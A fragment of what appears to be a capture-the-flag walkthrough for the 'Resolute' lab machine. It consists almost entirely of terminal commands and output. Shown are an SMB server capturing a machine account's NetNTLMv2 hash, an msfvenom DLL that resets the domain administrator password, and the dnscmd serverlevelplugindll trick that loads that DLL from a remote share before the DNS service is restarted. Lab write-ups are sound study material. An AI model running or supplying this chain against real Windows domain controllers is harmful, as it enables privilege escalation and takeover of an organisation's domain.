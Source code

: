 ```bash
```
In my SMB response I have
```bash
└─# impacket-smbserver s .
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.234.83,50891)
[*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
[*] User RESOLUTE\RESOLUTE$ authenticated successfully
[*] RESOLUTE$::MEGABANK:aaaaaaaaaaaaaaaa:6f2aed880e3265f97f774d17cd91823e:010100000000000000fc2c55a672da01dd45ef7299b62027000000000100100068004d006e006e006300550075006f000300100068004d006e006e006300550075006f00020010006b006e00620050007100430042005700040010006b006e006200500071004300420057000700080000fc2c55a672da0106000400020000000800300030000000000000000000000000400000c918efa0e0a305f7ee9088bbb2d8395849cba59cec72e27efcf319ad41b3b4130a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310036000000000000000000
[*] Disconnecting Share(1:IPC$)
```
What if I try to change the administrator password with another DLL?

```bash
└─# msfvenom -p windows/x64/exec cmd='net user administrator Password1 /domain' -f dll > dn.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 308 bytes
Final size of dll file: 9216 bytes
```
Then the same method, but cmdthis time

```bash
*Evil-WinRM* PS C:\Users\ryan\Desktop> cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.14.16\s\dn.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

*Evil-WinRM* PS C:\Users\ryan\Desktop> sc.exe \\resolute stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
*Evil-WinRM* PS C:\Users\ryan\Desktop> sc.exe \\resolute start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3064
        FLAGS              :
*Evil-WinRM* PS C:\Users\ryan\Desktop> 
```